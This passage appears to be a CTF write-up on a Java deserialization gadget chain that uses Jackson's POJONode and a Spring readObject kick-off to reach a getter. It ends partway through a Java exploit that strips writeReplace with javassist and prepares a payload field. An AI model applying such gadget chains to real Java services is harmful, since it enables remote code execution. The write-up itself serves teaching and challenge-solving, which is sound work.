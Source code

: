 I haven't found a direct way to reach the getter method starting from the `readObject`, so we need actually two different gadgets:

- The first one will call our getter method, by calling a `toString`
- The second one will call the `toString` method, by calling the `readObject` method (the kick-off gadget)

As you can see we have constructed a chain of gadget that lead us to call the getter method.

I've tried to make the process as clean as possible, but was not easy for me to came up with such idea. I've spent countless of hours in order to understand how the two gadgets were working. After that my first exploit wasn't working due to some reason that are still a bit obscure right now.

I've always been thrilled by such challenges, mainly by the fact that there are not so much resources in English regarding gadget finding. I've spent a lot of hours translating blog posts and writeups from Chinese. That's why i'm still investing my time on it, because i think that have some English resources could be really helpful to someone.

Back to the challenge, after a bit of copy and pasting the gadgets from the repo and reversing the author exploit (thank you @to016 for dealing with me), I've came up with a fully working exploit.

```java
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import java.io.*;
import java.lang.reflect.*;
import java.util.zip.GZIPInputStream;
import java.util.zip.GZIPOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import org.springframework.aop.target.HotSwappableTargetSource;
import com.galery.art.tools.CustomDataSource;
import com.galery.art.tools.PendingDataSource;
import org.springframework.aop.framework.AdvisedSupport;

public class Main{
    public static void main(String[] args) throws Exception{

        /**
         * We know that we can reach a getter method starting from a readObject.
         * The adopted technique is the following.
         * Using POJONode we can call a getter method using a toString.
         * Using <insert> we can call a toString method from a readObject.
         * In this way we have created a gadget chain.
         * 
         * Let's start by creating the first part of the gadget chain. POJONode#toString -> getter
         * We leverage the use of javassist in order to work with java bytecode properly.
         * We remove the writeReplace method in order to have a properly working gadget.
         * In this way we remove an exception that obstacles us.
         * 
         * */ 

	    ClassPool pool = ClassPool.getDefault();
	    pool.appendClassPath("/<path-to-lib>/jackson-databind-2.13.5.jar");
	    CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
        ctClass0.toClass(classLoader, null);


        /**
         * Let's now create the class on which we want to call the getter method.
         * With the setFieldValue method we set the conStr field with our payload.
```